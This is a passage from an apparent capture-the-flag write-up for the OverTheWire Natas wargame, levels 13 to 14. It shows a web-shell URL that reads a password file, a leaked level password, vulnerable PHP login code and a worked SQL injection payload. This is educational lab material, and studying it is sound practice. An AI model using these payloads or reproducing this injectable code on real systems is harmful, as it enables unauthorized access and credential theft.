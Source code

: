 http://natas13.natas.labs.overthewire.org/upload/f9w2oagy08.php?e=cat%20/etc/natas_webpass/natas14

![14](./img/14.4.png)

**����z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ**

## Level 13 → Level 14

``` php
<div id="content">
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>
<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<?php } ?>
```

Looks like a standard SQL injection

Username:

```" OR 1=1 -- ```

After injecting " OR 1=1 --, the SQL query becomes:
 
``` sql
SELECT * FROM users WHERE username="" OR 1=1 -- " AND password=""
```
- 1=1 is always true, so it returns all users.
- -- is an SQL comment, which ignores the rest of the query.
